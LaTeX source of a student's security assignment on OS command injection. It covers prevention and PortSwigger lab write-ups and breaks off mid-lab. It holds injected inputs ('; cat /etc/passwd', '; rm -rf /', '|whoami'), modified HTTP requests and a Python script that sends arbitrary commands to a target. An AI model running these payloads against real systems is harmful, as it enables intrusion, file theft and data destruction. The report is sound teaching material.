\documentclass{article}
\usepackage[utf8]{inputenc}
\usepackage{geometry}
 \geometry{
 a4paper,
 total={170mm,257mm},
 left=20mm,
 top=20mm,
 }
 \usepackage{graphicx}
 \usepackage{titling}
 \usepackage{kotex}
 \usepackage{hyperref}
 \usepackage{caption}

 \title{Introduction of Command Injection and Practice}
\author{Jeongmin Lee}
\date{September 2025}
 
 \usepackage{fancyhdr}
\setlength{\headheight}{12.5pt}
\usepackage{listings}
\lstset{
  basicstyle=\ttfamily\footnotesize,
  frame=single,
  columns=fullflexible,
  keepspaces=true,
  breaklines=true,
  captionpos=b,
  tabsize=2,
  language=Python
}
\fancypagestyle{plain}{%  the preset of fancyhdr 
    \fancyhf{} % clear all header and footer fields
  % If the image is missing, comment out the next line or provide a fallback
  % \fancyfoot[R]{\includegraphics[width=2cm]{KULEUVEN_GENT_RGB_LOGO.png}}
  \fancyfoot[R]{KUCSEPotato}
  \fancyfoot[L]{September 2025}
  \fancyhead[L]{Information Security Assignment1}
  \fancyhead[R]{Jeongmin Lee}
}
\makeatletter
\def\@maketitle{%
  \newpage
  \null
  \vskip 1em%
  \begin{center}%
  \let \footnote \thanks
    {\LARGE \@title \par}%
    \vskip 1em%
    %{\large \@date}%
  \end{center}%
  \par
  \vskip 1em}
\makeatother

\usepackage{lipsum}  
\usepackage{cmbright}

\begin{document}

\maketitle

\noindent\begin{tabular}{@{}ll}
  Student & \textit{Jeongmin Lee}\\
  Contributor & \textit{Jonghyeok Lee, Chanhang Lee, Nurnazihah Intan, Pedro Vidal Villalba}\\
\end{tabular}

\section*{Introduction}
This report covers command injection attacks, referencing lecture materials and YouTube videos provided in class. Where necessary, additional information was supplemented from online resources. The goal of this report is to provide an in-depth understanding of the concept, types, real-world cases, and best practices for preventing command injection attacks.

\section*{What is a Command Injection Attack?}
A command injection attack is a security vulnerability that allows an attacker to execute arbitrary system commands by exploiting weaknesses in a web application's input handling.
This type of attack occurs when user input is not properly validated or filtered.
Attackers can input malicious commands to perform unintended actions on the system or steal sensitive information.

Command injection is similar to SQL injection attacks. However, the main difference is that SQL injection targets databases by injecting SQL commands, while command injection allows execution of system-level commands on the host operating system.
In other words, SQL injection manipulates SQL queries to target the database, whereas command injection exploits vulnerabilities that permit arbitrary command execution at the OS level.

In the worst case, an attacker can exfiltrate information from the system or achieve Remote Code Execution (RCE).
This enables the attacker to add a reverse shell to the system, gain full control, and execute any command on the web server.

\subsection*{Simple Example of Command Injection}

For example, let's assume the server executes a ping command using the IP address provided by the user.

\begin{itemize}
  \item Normal Input: \texttt{ping 127.0.0.1}
  \item Malicious Input: \texttt{127.0.0.1; cat /etc/passwd}
  \item Actual Command Executed: \texttt{ping 127.0.0.1; cat /etc/passwd}
\end{itemize}

In this case, the server not only executes the ping command but also the additional \texttt{cat /etc/passwd} command, potentially exposing the contents of the system's password file to the attacker.
Below is an example of vulnerable code written in Python.

\begin{lstlisting}[caption={Vulnerable Code Example — Directly Combining User Input into Ping Command}]
user_input = request.args.get("ip")  # e.g., "127.0.0.1; cat /etc/passwd"
cmd = "ping " + user_input
os.system(cmd)  # Executes the entire command via shell
\end{lstlisting}

\subsection*{Types of Command Injection Attacks}
Command injection attacks can be broadly divided into three types:

First, \textbf{In-band Command Injection} refers to cases where the output or result of the injected command is directly included in the application's response (such as HTTP Response).
This type allows attackers to quickly and easily confirm information (such as directory listings, file contents, etc.). The simple example discussed earlier falls into this category.

Second, \textbf{Blind Command Injection} refers to cases where the command is executed on the server, but the result (output) is not directly returned in the HTTP response.
Attackers use various techniques to infer the success/failure of the command or obtain system information without direct output.
Because the result is not visible in the response body, it is called 'blind.'

Third, \textbf{Out-of-Band (OOB) Command Injection} refers to cases where the output of the command is sent to a separate channel controlled by the attacker (such as DNS, HTTP callback, email, etc.), and the attacker checks the response through that channel.
Some sources consider OOB a subcategory of Blind, while others treat it as a separate type. In this report, it is classified as a separate type.


\section*{Impact of Command Injection Vulnerabilities}

Command injection vulnerabilities can have very serious impacts on systems and services. The main impacts and their severity are as follows:

\begin{itemize}
  \item \textbf{Sensitive Information Disclosure}: Attackers can read or exfiltrate important files (e.g., /etc/passwd, configuration files, etc.) on the server through system commands. This can lead to the exposure of personal information, authentication credentials, system settings, and more.
  \item \textbf{Remote Code Execution (RCE) and Privilege Escalation}: Attackers can execute arbitrary commands to install malware (backdoors, reverse shells, etc.) on the system or escalate privileges to gain full control over the server. This can cause severe damage to service operators.
  \item \textbf{Denial of Service (DoS) and System Disruption}: If attackers execute infinite loops, large file creations, or resource-consuming commands, it can lead to service interruptions or server crashes.
  \item \textbf{Data Integrity/Availability/Confidentiality Compromise}: File deletions, data tampering, and system configuration changes can all threaten the integrity, availability, and confidentiality of data.
  \item \textbf{Stepping Stone for Attacking Other Systems}: Through command injection, attackers can use the server as a foothold to further attack other systems on the internal or external network. For example, network scanning and additional malware distribution are possible.
  \item \textbf{Legal/Trust Issues}: If information leaks or service disruptions occur, companies or organizations may face legal liabilities, reputational damage, and loss of trust.
\end{itemize}

In this way, command injection vulnerabilities can seriously threaten not only the security and stability of the system as a whole but also the trustworthiness of the organization, so prevention and prompt response are essential.

\section*{Prevention and Defense Strategies}
The key to preventing command injection vulnerabilities is to \textbf{avoid directly invoking shell commands of the operating system}. Whenever possible, application logic should not pass through the shell, and only safe APIs or dedicated functions should be used. Additional defense techniques include:

\begin{itemize}
  \item \textbf{Input Validation and Sanitization}: Strictly validate user input and normalize it to prevent unexpected metacharacters. Limit allowed character sets using regular expressions or schemas.
  \begin{itemize}
  \item \textbf{Whitelist-based Validation}: Only accept permitted values or patterns. For example, IPv4 addresses should only allow digits and dots (\texttt{.}).
  \end{itemize}

  \begin{lstlisting}[caption={Python Example: IPv4 Input Validation and Safe Execution}]
  import re, subprocess

  def is_valid_ipv4(ip):
    pattern = r"^([0-9]{1,3}\.){3}[0-9]{1,3}$"
    return re.match(pattern, ip) is not None

  user_input = request.args.get("ip")
  if is_valid_ipv4(user_input):
    subprocess.run(["ping", user_input], check=True)  # shell=False
  else:
    raise ValueError("Invalid IP address")
  \end{lstlisting}

  \item \textbf{Use Safe APIs and Library Functions}: Instead of composing system calls as strings, use safe function calls that only perform the intended operation. For example, use \texttt{os.mkdir()} for directory creation.

  \begin{lstlisting}[caption={Unsafe vs. Safe Method}]
  import os

  # Vulnerable way (allows command injection)
  user_input = "new_directory; rm -rf /"  # Malicious input
  os.system("mkdir " + user_input)  

  # Safe way (only creates directory)
  os.mkdir(user_input)
  \end{lstlisting}

  \item \textbf{Principle of Least Privilege}: Do not run applications with unnecessarily high privileges (e.g., root). Minimize the privileges of the execution account to reduce the impact even if an attack succeeds.

  \item \textbf{Security Options and Frameworks}: Use the \texttt{shell=False} option in Python's \texttt{subprocess} module, or argument-list-based execution in other languages to avoid shell interpretation. Apply modern security frameworks or libraries for systematic input validation, logging, and error handling.
  
  \begin{lstlisting}[caption={Python: Using subprocess.run (shell=False) with Input Validation}]
  import re
  import subprocess

  def is_valid_ipv4(ip: str) -> bool:
    pattern = r"^([0-9]{1,3}\.){3}[0-9]{1,3}$"
    return re.match(pattern, ip) is not None

  user_input = request.args.get("ip", "")

  if not is_valid_ipv4(user_input):
    raise ValueError("Invalid IP")

  subprocess.run(["ping", "-c", "4", user_input], check=True, shell=False)
  \end{lstlisting}

  \item \textbf{Output Encoding}: When returning command execution results or error messages to users in HTML, JSON, etc., always encode them properly. This provides an additional security layer to prevent command injection from combining with other vulnerabilities such as XSS.
\end{itemize}

\newpage
\section*{Practical Application}
I conducted hands-on exercises on command injection attacks using the labs at \url{https://portswigger.net/web-security/all-labs#os-command-injection}.

During the exercises, I added further explanations for aspects not covered above.
Additionally, I have included two versions of the solutions for the exercises: one using a Python script and the other using Burp Suite.

\subsection*{Lab: OS command injection, simple case}
\begin{description}
  \item[\textbf{Lab Description}:] This lab demonstrates an OS command injection vulnerability in a product stock checker application.
  \item[\textbf{Key Points}:]\leavevmode\par
    \begin{itemize}
      \item The application constructs and executes shell commands that incorporate user-supplied product and store identifiers.
      \item The raw output of the shell command is returned directly in the HTTP response.
    \end{itemize}
  \item[\textbf{Goal}:] Exploit the vulnerability to execute the \texttt{whoami} command and determine the name of the user under which the application runs.
  \item[\textbf{Background Knowledge}:]\leavevmode\par
    Familiarity with common Linux utilities is helpful when exploiting command injection vulnerabilities. A supplementary list of useful commands is provided in the attached \texttt{Linux\_Cmd.tex} file.
    \begin{itemize}
      \item \texttt{whoami}: prints the effective username of the current user.
      \item Command separators (syntactic elements): understanding how the shell delimits multiple commands helps interpret how injected payloads are evaluated; see Table~\ref{tab:shell-ops-extended}.
      \item HTTP methods: common methods include GET, POST, PUT, DELETE; see Table~\ref{tab:http-methods} for details.
      \item Burp Suite: an interception proxy used to capture and modify HTTP traffic; proficiency with this tool is recommended for the hands-on exercises.
    \end{itemize}

      \begin{center}
        % Use captionof when adding captions inside a list
        \captionof{table}{Command Separators}\label{tab:shell-ops-extended}
        \vspace{0.5em}

        \begin{tabular}{p{1.6cm} p{6cm} p{5cm} p{3.2cm}}
          \hline
            Operator & \textbf{Description} & \textbf{When the following command executes} & \textbf{Example / Notes} \\
          \hline
          	; & Command separator; executes commands sequentially. & Always; independent of the previous command's success. & \texttt{echo a; echo b} — prints a then b \\
          	\&\& & Conditional AND: executes the following command only if the preceding command succeeded. & When the previous command's exit code == 0. & \texttt{make \&\& echo "build succeeded"} \\
          	\textbar \textbar & Conditional OR: executes the following command only if the preceding command failed. & When the previous command's exit code != 0. & \texttt{grep foo file || echo "not found"} \\
          	\textbar & Pipe: connects stdout of the left command to stdin of the right command. & Always (processes are connected and run concurrently). & \texttt{ps aux \textbar\ grep ssh} — pipe the output to grep \\
          	\& & Background execution (asynchronous). & Command runs in background; prompt returns immediately. & \texttt{long\_task \&} — returns a PID \\
          \hline
        \end{tabular}
      \end{center}

     \begin{center}

      \captionof{table}{HTTP Methods}\label{tab:http-methods}
      \vspace{0.5em}

      \begin{tabular}{p{2.2cm} p{7.0cm}}
        \hline
        	\textbf{Method} & \textbf{Description} \\
        \hline
        	GET & Retrieval of a resource; should not change server state. \\
        	POST & Used to create or process resources and may change server state. \\
        	PUT & Store or replace a resource at the specified URI. \\
        	PATCH & Partially update a resource. \\
        	DELETE & Request deletion of the specified resource. \\
        \hline
      \end{tabular}
    \end{center}

    \item[\textbf{Solution using Burpsuite}:] \leavevmode\par
    Because the attack requires sending commands to the server, the relevant HTTP request in this lab is the POST request. Intercept the POST request using Burp Suite, inject the \texttt{whoami} payload, and forward the modified request to observe the result. The detailed procedure is as follows:
    \begin{enumerate}
      \item Launch Burp Suite and ensure the Proxy Intercept setting is ON.
      \item Open the target application URL in a browser.
      \item Enter a product ID and store ID, then click the "Check stock" button.
      \item Observe the intercepted request in Burp Suite's Proxy tab.
      
      \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure1.png}
      \caption{Intercepted request after performing the stock check}
      \label{fig:stock-checker}
      \end{figure}

      \item Modify the request body so that the product and store identifiers include an injected \texttt{whoami} command.
      
      \begin{lstlisting}[label={lst:original-request},caption={Original request}]
      ...
      Referer: https://0a4b0031040a0f9c839e4998008f0083.web-security-academy.net/product?productId=1
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      productId=1&storeId=1
      \end{lstlisting}

      \begin{lstlisting}[label={lst:modified-request},caption={Modified request}]
      ...
      Referer: https://0a4b0031040a0f9c839e4998008f0083.web-security-academy.net/product?productId=1
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      productId=1&storeId=1|whoami
      \end{lstlisting}

      \item Forward the modified request to the server.
      \item Inspect the server response for the output of the \texttt{whoami} command.
      \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure2.png}
      \caption{Result of the \texttt{whoami} command}
      \label{fig:whoami-result}
      \end{figure}
      
    \end{enumerate}

    \item[\textbf{Solution using Python script}:] \leavevmode\par
    Below is a simple Python script that sends a command injection payload to the vulnerable web application's parameter (`storeId`) and checks for remote command execution. 
    The key operations are as follows:

    Key operations:
    \begin{itemize}
      \item Send a POST request to the \texttt{/product/stock} endpoint, injecting a payload of the form \texttt{'1 \&\& <command>'} into the \texttt{storeId} parameter.
      \item Determine the success of the command execution based on the length of the response text (e.g., \texttt{len(r.text) > 3}).
      \item Configure the \texttt{proxies} to use a local proxy (127.0.0.1:8080) to observe traffic with tools like Burp or mitmproxy.
    \end{itemize}

    \begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 1}, showspaces=false,showstringspaces=false]
    import requests
    import sys
    import urllib3

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    # Send the requests through Burp to be able to examine them
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

    def run_command(url: str, command: str):
        stock_path = '/product/stock'
        command_injection = '1 && ' + command
        params = {'productId': '1', 'storeId': command_injection}
        r = requests.post(url + stock_path, data=params, verify=False, proxies=proxies)
        if (len(r.text) > 3):
            print(f"(+) Command injection succesful!")
            print(f"(+) Output of command:\n{r.text}")
        else:
            print("(-) Command injection failed.")

    def main():
        # Check the number of arguments to the program is correct
        if len(sys.argv) != 3:
            print(f"(-) Usage: {sys.argv[0]} <url> <command>")
            print(f"(-) Example: {sys.argv[0]} www.example.com whoami")
            sys.exit(1)

        url = sys.argv[1]
        command = sys.argv[2]
        print(f"(+) Exploiting command injection...")
        run_command(url, command)

    if __name__ == '__main__':
        main()
  \end{lstlisting}
\end{description}

\newpage
\subsection*{Lab: Blind OS command injection with time delays}
\begin{description}
  \item[\textbf{Lab Description}:] This exercise demonstrates a \emph{blind} OS command injection vulnerability located in the feedback function.

  \item[\textbf{Key Points}:]\leavevmode\par
    \begin{itemize}
      \item The application may construct and execute shell commands that incorporate user-supplied input.
      \item The output of those commands is not directly returned in the HTTP response (i.e., the vulnerability is blind with respect to output).
    \end{itemize}

  \item[\textbf{Objective}:]\leavevmode\par
    \begin{itemize}
      \item Induce a 10-second delay on the server by exploiting the vulnerability.
    \end{itemize}

  \item[\textbf{Background Knowledge}:]\leavevmode\par
    As with the previous lab, familiarity with Linux utilities helps when crafting payloads. By causing a time delay using an injected command, an attacker can infer command execution based on the application's response time. The \texttt{ping} utility, which allows specifying the number of ICMP packets, is suitable for this purpose.
    \begin{itemize}
      \item Use \texttt{ping -c 10 127.0.0.1} to send ten packets and measure the elapsed time.
      \item If the response time is approximately 10 seconds or more, it indicates that the command executed successfully.
    \end{itemize}

    \item[\textbf{Solution using Burpsuite}:] \leavevmode\par

    \begin{enumerate}
      \item Launch Burp Suite and ensure the Proxy Intercept setting is ON.
      \item Open the target application URL in a browser.
      \item Click the Submit feedback button to trigger the feedback form submission.
      \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure3.png}
      \caption{Feedback form}
      \label{fig:feedback-form}
      \end{figure}
      \item Observe the intercepted request in Burp Suite's Proxy tab.
      \item Modify the request body so that the \texttt{email} parameter contains an injected \texttt{ping -c 10 127.0.0.1} command.
      \begin{lstlisting}[label={lst:blind-original-request},caption={Original request}]
      ...
      Referer: https://0a3500a4041067458027b2da003a0060.web-security-academy.net/feedback
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      csrf=0Fdn9Kp5NSKWRNwvp9xiuFSt0gJ5DaXU&name=potato&email=potato%40potato.com&subject=potato&message=potato
      \end{lstlisting}

      \begin{lstlisting}[label={lst:modified-request},caption={Modified request}]
      ...
      Referer: https://0a3500a4041067458027b2da003a0060.web-security-academy.net/feedback
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      csrf=0Fdn9Kp5NSKWRNwvp9xiuFSt0gJ5DaXU&name=potato&email=potato||ping+-c+10+127.0.0.1||&subject=potato&message=potato
      \end{lstlisting}
      \item Forward the modified request and observe the result.
      \begin{figure}[htbp]
      \centering
